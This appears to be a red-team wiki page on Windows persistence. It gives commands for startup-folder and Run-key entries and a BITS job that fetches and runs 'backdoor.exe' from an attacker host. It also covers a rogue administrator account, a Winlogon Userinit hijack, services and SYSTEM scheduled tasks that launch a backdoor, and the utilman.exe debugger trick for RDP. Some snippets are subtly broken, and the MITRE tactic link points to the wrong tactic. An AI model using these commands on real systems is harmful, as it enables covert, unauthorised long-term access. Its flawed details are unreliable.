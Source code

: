 # Persistence

([MITRE Tactic TA0003](https://attack.mitre.org/tactics/TA0002/))

Reasons for wanting persistence on a machine or network:
1. Backdooring and post-detection re-entrance.
2. Stability and a operational section of the network to work from.
3. Gaining foothold a hard to reproduce, especially if is phished for.
4. Re-exploitation is not alway possible post compromised or is also not fittly stealthy.
5. The SOC or Blue/Purple teams may have or would make significantly easier to detect.

For specifically [[Active-Directory-Persistence]] or [[Windows-Persistence]] or [[Linux-Persistence]].


## Persistence Bottom-Up

#### Startup folder persistence
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
Edit the registry, Startup from registry editing
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

#### BITS Jobs
```powershell
# Note: In order to work you have to have a webserver running so BITS can download the backdoor and Metasploit listening for connections.
# ALSO Note: BITS is very unstable and can and might give you just temporary persistence.
bitsadmin /addfile backdoor "http://attackbox:port/backdoor.exe" "C:\Users\%username%\somewhere\backdoor.exe"
bitsadmin /SetNotifyCmdline 1 cmd.exe "/c bitsadmin.exe /complete backdoor | start /B C:\path\backdoor.exe"
bitsadmin /SetMinRetryDelay backdoor 30
bitsadmin /resume
```


##  Persistence Top-Down
#### Creating another administrator user
```powershell
net user /add <user> <password>
net localgroup Administrators backdoor /add
```
####  Edit the registry
User logon that sends you a shell:
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f 
```

#### Persistence by creating a service
```powershell
New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"
```
#### Scheduled tasks
```powershell
New-ScheduledTaskAction -Execute "cmd.exe" -ARgument "/ C:\path\backdoor.exe"
New-ScheduledTaskTrigger -AtlogOn
New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highest
New-ScheduledTaskSettingsSet
Register-ScheduledTask -Action $A -Trigger $B -Principal $C -Settings $D
Register-ScheduledTask Backdoor -InputObject $E
```
####  Backdooring RDP
```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f	
```